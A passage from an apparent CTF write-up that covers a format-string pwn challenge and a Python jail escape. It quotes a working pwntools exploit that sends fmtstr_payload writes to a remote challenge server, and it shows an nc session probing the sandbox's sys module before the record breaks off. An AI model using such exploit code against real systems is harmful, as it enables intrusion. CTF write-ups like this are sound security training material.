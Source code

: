 Find any [3D viewer](https://3dviewer.net/) to open it and get some morse in 3D (incredible)

Back to the [kitchen](https://gchq.github.io/) to get that flag


### Invisible

- points = 300
- status = unsolved

Get the [Binary](2022/invisible)...It's pwn so you know what to do already

It's all about `ELF x64 - Format string bug`

I might update this later with more details but as I didnt solve it I will simply reffer to [those guys](https://github.com/TargetRoot/CTF)'s solution using `pwntools` on remote
```
from pwn import *
from time import sleep
context.arch = 'amd64'
for i in range(500):
	conn=remote('51.38.37.81',1234)
	payload=fmtstr_payload(8,{0x000000000040405c:200})
	conn.sendline(payload)
	print(conn.recvall())
	conn.close()
	sleep(0.1)
```

### Queen

- points = 550
- status = unsolved

This one had the most points?? wow

First google `python jail`

Connect to the server

```
└──╼ $nc 51.38.37.81 7002
Please, save me from this hell :'(
>>> 
```
Checking if `sys` is present

```
>>> print sys
<module 'sys' (built-in)>

>>> print dir(sys)
['__displayhook__', '__doc__', '__excepthook__', '__name__', '__package__', '__stderr__', '__stdin__', '__stdout__', '_clear_type_cache', '_current_frames', '_getframe', '_git', 'api_version', 'argv', 'builtin_module_names', 'byteorder', 'call_tracing', 'callstats', 'copyright', 'displayhook', 'dont_write_bytecode', 'exc_clear', 'exc_info', 'exc_type', 'excepthook', 'exec_prefix', 'executable', 'exit', 'flags', 'float_info', 'float_repr_style', 'getcheckinterval', 'getdefaultencoding', 'getdlopenflags', 'getfilesystemencoding', 'getprofile', 'getrecursionlimit', 'getrefcount', 'getsizeof', 'gettrace', 'hexversion', 'long_info', 'maxint', 'maxsize', 'maxunicode', 'meta_path', 'modules', 'path', 'path_hooks', 'path_importer_cache', 'platform', 'prefix', 'py3kwarning', 'setcheckinterval', 'setdlopenflags', 'setprofile', 'setrecursionlimit', 'settrace', 'stderr', 'stdin', 'stdout', 'subversion', 'version', 'version_info', 'warnoptions']

>>> print sys.modules
```
